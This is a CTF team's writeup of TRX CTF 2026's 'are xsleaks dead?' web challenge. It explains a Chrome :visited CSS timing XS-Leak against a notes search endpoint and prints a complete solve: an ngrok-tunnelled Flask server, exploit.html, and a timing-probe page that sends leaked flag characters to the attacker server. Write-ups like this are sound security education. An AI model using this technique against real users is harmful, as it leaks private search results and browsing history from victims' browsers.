


Our team participated in the 2026 edition of TRX CTF, the annual competition organized by fellow italian team [TheRomanXpl0it](https://theromanxpl0.it/) from the university of Sapienza.

We achieved a [good result](https://ctftime.org/event/3141), scoring a nice third place in the italian leaderboard and a 17th place globally.



You can find writeups for the challenges we managed to solve in the following sections:

- [web/are xsleaks dead?](#are-xsleaks-dead)
- [category/name](#tag)

## Web

### are xsleaks dead?

- _Author_: [simonedimaria](simonedimaria.xyz)
- _Category_: XS-Leaks
- _Solves_: 11
- _Solved by_: [pysu](/authors/pysu/)

The website consists of a very minimal HTML page where we can post notes:



From the source code, we can see that this is just a FastAPI website where notes are saved in the user's session:

```python
import secrets
from pathlib import Path
from pydantic import BaseModel
from fastapi import FastAPI, Query, Request
from fastapi.responses import HTMLResponse, JSONResponse, Response
from fastapi.templating import Jinja2Templates

app = FastAPI()
templates = Jinja2Templates("templates/")
notes_by_session: dict[str, list[dict[str, object]]] = {}

class Note(BaseModel):
    content: str

def get_session_notes(request: Request) -> tuple[str, bool, list[dict[str, object]]]:
    session_id = request.cookies.get("sid")
    is_new = not session_id
    if is_new:
        session_id = secrets.token_hex(16)
    return session_id, is_new, notes_by_session.setdefault(session_id, [])

@app.get("/", response_class=HTMLResponse)
async def index(request: Request, q: str = Query(default="")) -> Response:
    session_id, is_new, notes = get_session_notes(request)
    query = q.strip().lower()
    filtered_notes = [
        note for note in notes if query in str(note["content"]).lower()
    ] if query else notes
    response = templates.TemplateResponse(
        request,
        "index.html",
        {"request": request, "notes": filtered_notes, "q": q},
        status_code=200 if filtered_notes else 404,
    )
    if is_new:
        response.set_cookie("sid", session_id, httponly=True, samesite="lax")
    return response

@app.post("/notes")
async def create_note(request: Request, payload: Note) -> JSONResponse:
    session_id, is_new, notes = get_session_notes(request)
    notes.append({"id": len(notes) + 1, "content": payload.content})
    response = JSONResponse({"ok": True})
    if is_new:
        response.set_cookie("sid", session_id, httponly=True, samesite="lax")
    return response
```

The goal is to steal the flag from a Chrome bot which performs the following steps:

1. Opens the challenge URL
2. Submits a note containing the flag
3. Opens a new tab
4. Visits a URL supplied by the attacker

```python
def visit(url: str) -> None:
    assert len(FLAG) == 35
    options = Options()
    options.binary_location = CHROME_BIN
    options.add_argument("--headless=new")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--js-flags=--jitless --no-expose-wasm")
    driver = webdriver.Chrome(service=Service(CHROMEDRIVER), options=options)
    try:
        driver.get(BASE_URL)
        driver.find_element(By.ID, "content").send_keys(FLAG)
        driver.find_element(By.CSS_SELECTOR, "#note-form button").click()

        notes_tab = driver.current_window_handle
        driver.switch_to.new_window("tab")
        driver.switch_to.window(notes_tab)
        driver.close()

        driver.switch_to.window(driver.window_handles[0])
        driver.get(url)
        time.sleep(VISIT_SECONDS)
    finally:
        try: driver.quit()
        except Exception: pass
```

In this case, notes are stored inside the user's session, and the page is not vulnerable to XSS. However, we have access to a search functionality through the "`/`" endpoint. Supplying a `?q=` query parameter performs a research in the user's notes, and returns a note containing the supplied query, or `404` if none exists.

In order to leak the flag, we can abuse a known XS-Leak techniques that abuses a [CSS Trick](https://xsleaks.dev/docs/attacks/css-tricks/#retrieving-users-history). The idea is that when a page returns a `404` code the URL is not saved on the browser's history. In Chrome (and in most modern browsers) when a URL has been visited, the browser appends a `:visited` CSS selector to any link in a page. Modern engines are [very restrictive](https://developer.mozilla.org/en-US/docs/Web/CSS/Guides/Selectors/Privacy_and_:visited) with respect of the CSS attributes which can be specified for this attribute, specifically because they could be used by an attacker to exfiltrate a user's history.

However, there is a known [Chrome wont-fix issue](https://issues.chromium.org/issues/40077686) about the possibility for an attacker to exfiltrate the `:visited` CSS selector through a timing attack by enforcing a very computationally expensive layout. This way, we can exfiltrate the flag by forcing the bot to load a URL containing the `?q=TRX{a` query with a random character on a page we control with the `:visited` computationally-heavy selector. If the URL returns a `200`, then the `:visited` selector will load, and we will measure a timing side-channel, confirming that the character was correct.


If you would like to understand more about the vulnerability, check out [this detailed writeup](https://jorianwoltjer.com/blog/p/hacking/xs-leaking-flags-with-css-a-ctfd-0day) on how this XS-Leak could be abused to leak flags from a CTF instance.


The final solve script was the following:

`app.py`:

```python
import os
import secrets

from flask import Flask, jsonify, render_template, request
from pyngrok import conf,ngrok
import requests


tunnels = ngrok.get_tunnels()
for tunnel in tunnels:
    print(tunnel.public_url)
    ngrok.disconnect(tunnel.public_url)

ngrok.set_auth_token("<TOKEN>")
http_tunnel = ngrok.connect(5000, "http")
print("URL", http_tunnel.public_url)


class Challenge:

    def __init__(self, url) -> None:
        self.url = url
        self.session = requests.Session()

    def _(self, path):
        return self.url + path

    def register(self):
        return
        a = self.session.post(self._("/"), data={
            "name": secrets.token_hex(16),
            "pass": secrets.token_hex(16)
        })

        #assert a.ok

    def load_exploit(self):
        """
        a = self.session.post(self._("/index.php"), data={
            'title': secrets.token_hex(16),
            'contents': payload
        }, allow_redirects=False)

        post_id = a.text.split("<li><a href='/post.php?id=")[1].split("'>")[0]
        """
        #return
        BOT_URL = "http://<CHALL_URL>"
        a = self.session.post(BOT_URL + "/report", json={
            'url': http_tunnel.public_url
        })
        print("DEBUG REPORT", a.status_code, a.text)

'''

1. Send bot to attaccker controlled server
2. Open all links like
    2.1 /search.php?query={guess}{try}
3. Check all links and get the visited one
4. Profit
'''
URL = os.environ.get("URL", "http://web:8000")

app = Flask(__name__)
own_pid = os.getpid()
flag_state = {
    "guess": "TRX{s0p_1s_4_s0cial_c0n5truct_f7bd}",
    "current_guess": "_",
}

@app.route('/')
def index():
    start_hash = f"{flag_state['guess']}|{flag_state['current_guess']}"
    return render_template('exploit.html', CHALLENGE_URL=URL, START_HASH=start_hash)

@app.route('/poc')
def poc():
    args = request.args.get('url')
    start_hash = f"{flag_state['guess']}|{flag_state['current_guess']}"
    return render_template('poc.html', url=args, CHALLENGE_URL=URL, START_HASH=start_hash)

@app.route('/leak')
def leak():
    global own_pid, flag_state
    flag = request.args.get('flag', '')
    if not flag:
        return jsonify(error="missing flag"), 400

    flag_state["guess"] = flag
    flag_state["current_guess"] = "_"

    if flag[-1] == '}':
        print(flag)
        os.kill(own_pid, 9)
    return jsonify(flag=flag, next_hash=f"{flag}|_", current_guess="_")

# SEND THE EXPLPOIT TO THE BOT
c = Challenge(URL)
c.register()
c.load_exploit()


app.run(host='0.0.0.0')
```

`exploit.html`:

```html
<style type="text/css">
    /* Set it up so the target link element has different colors when pointing to a
       visited vs unvisited URL. */
    #target {
        color: white;
        background-color: white;
        outline-color: white;
    }
    #target:visited {
        color: #feffff;
        background-color: #fffeff;
        outline-color: #fffffe;
    }
</style>
<body>

</body>
<script>


    async function isVisited(url){
        window.open(`/poc?url=${encodeURIComponent(url)}`, 'poc');
    }

    // from fragment
    let hash = window.location.hash.substring(1) || "{{START_HASH}}";
    let [guess, current_guess] = hash.split('|')
    let base_url = '{{CHALLENGE_URL}}/?q='
    let charset = '_a0b1c2d3e4f5g6h7i8j9klmnopqrstuvwxyz}'.split('');

    async function exploit(current_guess){
        let w = open(`${base_url}${guess}${current_guess}`, 'guess');
        if (!w) {
            // If popup is blocked, still run a probe attempt.
            await new Promise((resolve) => setTimeout(resolve, 600));
            isVisited(`${base_url}${guess}${current_guess}`);
            return;
        }
        // Wait for load or timeout, then probe quickly.
        await Promise.race([
            new Promise((resolve) => {
                w.onload = () => resolve();
            }),
            new Promise((resolve) => setTimeout(resolve, 1500))
        ]);
        await new Promise((resolve) => setTimeout(resolve, 100));
        w.close();
        isVisited(`${base_url}${guess}${current_guess}`);
    }
    exploit(current_guess);

</script>
```

`poc.html`:

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="utf-8"/>
    <style type="text/css">
        /* Set it up so the target link element has different colors when pointing to a
           visited vs unvisited URL. */
        #target {
            color: white;
            background-color: white;
            outline-color: white;
        }
        #target:visited {
            color: #feffff;
            background-color: #fffeff;
            outline-color: #fffffe;
        }
    </style>
</head>
<body>
    <div id="entryDisplay">
        Enter a URL to test for visited status:
        <input id="urlInput" type="text" size="60" value="{{url}}" autofocus/>
        <button id="testButton">Test</button>
    </div>
    <script type="text/javascript">
        (function () {
            var entryDisplay = document.getElementById('entryDisplay');
            var urlInput = document.getElementById('urlInput');
            var testButton = document.getElementById('testButton');

            var basisUrl; // Known-unvisibed URL used during both test stages.
            var controlUrl; // Another known-unvisited URL for the "control" stage.
            var experimentUrl; // The URL of unknown visited status.

            var targetLink;
            var controlTickCount;
            var experimentTickCount;

            var STAGE_DURATION_MS = 650;
            var SAMPLES_PER_STAGE = 2;
            var sampleIndex = 0;
            var controlSamples = [];
            var experimentSamples = [];

            // Utility function to randomly generate a known-unvisited URL.
            function generateUnvisitedUrl () {
                return 'https://' + Math.random() + '/' + Date.now();
            }

            testButton.addEventListener('click', function () {
                // Collect URLs.
                basisUrl = generateUnvisitedUrl();
                controlUrl = generateUnvisitedUrl();
                experimentUrl = urlInput.value;
                console.log({ experimentUrl })
                entryDisplay.remove();

                document.body.style.overflow = 'hidden';

                // Create the target link element and point it to the basis URL.
                targetLink = document.createElement('a');
                targetLink.id = 'target';
                targetLink.href = basisUrl;

                // Fill the target link element with a bunch of "Chinese lorem ipsum"
                // text to put some load on the browser's text renderer.
                var garbageText = '業雲多受片主。好些天事開後起主在小工過商友全行，打回化高全水點強的基聯形要北壓好接畫。動我可存吸正分日通想……家覺生傳利最製面傳師命實們候企南是，多或進學落究，拿活直能你長的們 是我和除四遠大因自過學於更，夠根親論運不我音死這中，生球經時於作，態了北業調經害難制明人人一經口子門眼，還年母語灣畫給的我坐多球：了這制響第不英才產聯是灣巴；為防平早，一廣女濟大運，的者黑來人北計記名書主之經決地皮天是有半！生請子記實的業外，出發向求：收息無：當法放老想？發景！'.repeat(28);
                targetLink.appendChild(document.createTextNode(garbageText));

                // Set up some complicated CSS effects on the target link element.
                targetLink.style.display = 'block';
                targetLink.style.width = '5px';
                targetLink.style.fontSize = '2px';
                targetLink.style.outlineWidth = '24px';
                targetLink.style.textAlign = 'center';
                targetLink.style.filter =
                    'contrast(200%) drop-shadow(16px 16px 10px #fefefe) saturate(200%)';
                targetLink.style.textShadow = '16px 16px 10px #fefffe';
                targetLink.style.transform = 'perspective(100px) rotateY(37deg)';

                document.body.appendChild(targetLink);

                requestAnimationFrame(function () {
                    requestAnimationFrame(function () {
                        runTestStage(false);
                    });
                });
            });

            function runTestStage (isExperimentStage) {
                var testUrl = isExperimentStage ? experimentUrl : controlUrl;
                startCountingTicks();
                startOscillatingHref(testUrl);

                setTimeout(async function () {
                    stopOscillatingHref();
                    var ticks = stopCountingTicks();

                    if (!isExperimentStage) {
                        controlSamples.push(ticks);
                        runTestStage(true);
                        return;
                    }

                    experimentSamples.push(ticks);
                    sampleIndex += 1;

                    if (sampleIndex < SAMPLES_PER_STAGE) {
                        runTestStage(false);
                        return;
                    }

                    controlTickCount = median(controlSamples);
                    experimentTickCount = median(experimentSamples);
                    targetLink.remove();


                    if (controlTickCount <= 0) {
                        controlTickCount = 1;
                    }

                    var ratio = experimentTickCount / controlTickCount;
                    console.log("RATIO", experimentTickCount, controlTickCount, ratio, { controlSamples, experimentSamples });
                    // Use a slightly looser threshold as prefixes grow and signal weakens.
                    var guessLen = (opener.location.hash.substring(1).split('|')[0] || '').length;
                    var likelyVisited = ratio < (guessLen >= 14 ? 0.88 : 0.82);

                    async function sendBeacon(cond){
                        let url = opener.location.hash.substring(1) || "{{START_HASH}}";
                        let parts = url.split('|');
                        let guess = parts[0] || "";
                        let current_guess = parts[1] || "_";
                        let retryCount = Number(parts[2] || "0");
                        if(cond){
                            let response = await fetch(`/leak?flag=${guess}${current_guess}`);
                            let data = await response.json();
                            opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${data.next_hash}`
                        }
                        else {
                            let charset = '_a0b1c2d3e4f5g6h7i8j9klmnopqrstuvwxyz}'.split('');
                            let idx = charset.indexOf(current_guess);

                            // If current char not in charset or is empty, we're done—report the guess.
                            if (idx < 0) {
                                await fetch(`/leak?flag=${guess}`);
                                return;
                            }

                            let nextChar = idx < charset.length - 1 ? charset[idx + 1] : null;

                            // Retry same candidate once if it is close to threshold (possible false negative).
                            if (ratio >= 0.82 && ratio < 0.94 && retryCount < 2) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|${current_guess}|${retryCount + 1}`;
                                return;
                            }

                            // Protect the first charset character from single-sample timing misses.
                            if (idx === 0 && retryCount < 1) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|${current_guess}|${retryCount + 1}`;
                                return;
                            }

                            // If no next character, we've exhausted the charset at this depth.
                            if (nextChar === null) {
                                // Avoid committing a prefix when no candidate passed; restart this position.
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|_`;
                                return;
                            }

                            opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|${nextChar}`;
                        }
                    }
                    sendBeacon(likelyVisited);

                    document.body.style.overflow = 'visible';

                    var outputDom = document.createElement('p');

                    outputDom.appendChild(document.createTextNode('Result for '));

                    var linkDom = document.createElement('a');
                    linkDom.href = experimentUrl;
                    linkDom.appendChild(document.createTextNode(experimentUrl));
                    outputDom.appendChild(linkDom);

                    outputDom.appendChild(document.createTextNode(': likely '));

                    var resultDom = document.createElement('strong');
                    resultDom.innerHTML = likelyVisited ? 'VISITED' : 'UNVISITED';
                    resultDom.style.color = likelyVisited ? 'green' : 'red';
                    outputDom.appendChild(resultDom);

                    outputDom.appendChild(document.createTextNode(
                        ' (' + experimentTickCount + ' ticks vs ' +
                        controlTickCount + ' ticks; ratio = ' +
                        Math.round(ratio * 100) + '%, from ' +
                        SAMPLES_PER_STAGE + ' samples).'));

                    document.body.appendChild(outputDom);

                    var retryButton = document.createElement('button');
                    retryButton.innerHTML = 'Try Another URL';
                    retryButton.addEventListener('click', function (e) {
                        location.reload();
                    });
                    document.body.appendChild(retryButton);
                    retryButton.focus();
                }, STAGE_DURATION_MS);
            }

            function median(values) {
                var sorted = values.slice().sort(function (a, b) { return a - b; });
                var middle = Math.floor(sorted.length / 2);
                if (sorted.length % 2 === 0) {
                    return (sorted[middle - 1] + sorted[middle]) / 2;
                }
                return sorted[middle];
            }

            // Concurrently oscillate the target link's href between the known-unvisited
            // basis URL and a given test URL, which could be either of the control or
            // experiment URLs.
            var oscillateInterval;
            var isPointingToBasisUrl = true;
            function startOscillatingHref (testUrl) {
                oscillateInterval = setInterval(function () {
                    targetLink.href = isPointingToBasisUrl ? testUrl : basisUrl;
                    isPointingToBasisUrl = !isPointingToBasisUrl;
                }, 0);
            }
            function stopOscillatingHref () {
                clearInterval(oscillateInterval);
                targetLink.href = basisUrl;
                isPointingToBasisUrl = true;
            }

            // Concurrently count the number of times we complete a
            // requestAnimationFrame callback, measuring paint performance over the test
            // period.
            var tickCount = 0;
            var tickRequestId;
            function startCountingTicks () {
                tickRequestId = requestAnimationFrame(function () {
                    ++tickCount;
                    startCountingTicks();
                });
            }
            function stopCountingTicks () {
                cancelAnimationFrame(tickRequestId);
                var oldTickCount = tickCount;
                tickCount = 0;
                return oldTickCount;
            }
        })();

        setTimeout(function () {
            var testButton = document.getElementById('testButton');
            testButton.click();
        }, 1000);

    </script>
</body>
</html>
```

## Pwn

## Rev

## Crypto

## Misc